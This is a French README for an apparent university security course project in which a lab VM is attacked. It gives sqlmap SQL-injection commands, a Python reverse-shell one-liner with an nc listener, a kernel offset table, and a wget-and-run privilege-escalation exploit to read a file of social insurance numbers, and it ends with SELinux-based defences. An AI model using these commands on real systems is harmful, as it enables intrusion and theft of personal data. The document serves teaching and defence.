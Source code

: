 # INF8602 – Projet de session

## Prérequis :

Ajouter la ligne suivante dans ``/etc/hosts`` :
```
IP_DE_LA_VM  inf8602.local
```

## Attaque
- Accéder à la page : http://inf8602.local
- Se connecter avec : ``ebelanger``, ``motdepasse``

### Exploration

Exploration à l'aide de sqlmap :
```bash
sqlmap --flush-session -u "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST
```

On constate que le serveur est vulnérable.

Listons les tables :

```bash
sqlmap -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST --dump -T users --stop 5
```

Les NAS ne sont pas là...

### Obtention d'un shell

On souhaite obtenir un shell :
```bash
sqlmap -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --dbms=postgresql --method POST --no-cast --os-shell
```

On lance ensuite, dans un autre teminal :
```bash
nc -l -p 8080 -vvv
```

Puis on lance la commande suivante dans le shell sqlmap :
```bash
python3 -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.122.1",8080));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

**Le shell est obtenu!**

### Vulnérabilité du système d'exploitation

Il faut montrer que l'utilisateur est ``postgress`` et que les NAS sont dans ``/nas.txt`` :
```bash
whoami
ls -lsa /
uname -a
```

On constate que seul root peut accéder à ``/secure_folder/nas.txt``. On constate également que le kernel (``5.11.0-44-generic``) fait partie de la liste suivante :
```c
struct kernel_info kernels[] = {
    {"5.11.0-22-generic #23~20.04.1-Ubuntu", 0x33ceb0, 0x166c2c0},
    {"5.11.0-25-generic #27~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-27-generic #29~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-34-generic #36~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-36-generic #40~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-37-generic #41~20.04.2-Ubuntu", 0x33eae0, 0x166c340},
    {"5.11.0-38-generic #42~20.04.1-Ubuntu", 0x33f400, 0x166c340},
    {"5.11.0-40-generic #44~20.04.2-Ubuntu", 0x33f980, 0x1c6c2e0},
    {"5.11.0-41-generic #45~20.04.1-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-43-generic #47~20.04.2-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-44-generic #48~20.04.2-Ubuntu", 0x3400b0, 0x1c6c2e0},
    {"5.13.0-21-generic #21~20.04.1-Ubuntu", 0x34adc0, 0x1e6e060},
    {"5.13.0-22-generic #22~20.04.1-Ubuntu", 0x34b280, 0x1e6e060},
    {"5.13.0-23-generic #23~20.04.2-Ubuntu", 0x34b270, 0x1e6e0a0},
    {"5.13.0-25-generic #26~20.04.1-Ubuntu", 0x34b330, 0x1e6e0a0},
};
```

Il est possible de réaliser une élévation de privilège :
```bash
wget https://github.com/bourquejulien/INF8602-Projet/raw/main/SELinux/attack/exploit
chmod +x exploit
./exploit
bash -p
```

Il est maintenant possible d'accéder au NAS :
```bash
whoami
cat /nas.csv
```

## Défense

Pour relance la DB (au besoin, tuer ``./exploit`` au préalable) :
```bash
sudo systemctl restart postgresql
```

**Plusieurs défenses existent.**

Pour éviter les injections SQL :
```bash
sudo systemctl stop inf8602
sudo systemctl start inf8602-safe
```

Pour éviter l'exécution de l'attaque :
```bash
sudo systemctl stop inf8602-safe
sudo systemctl start inf8602

sestatus
sudo setenforce 1
sestatus
```

**Relancer l'attaque**

Pour éviter l'exécution de l'attaque :
```bash
sudo setenforce 0
```
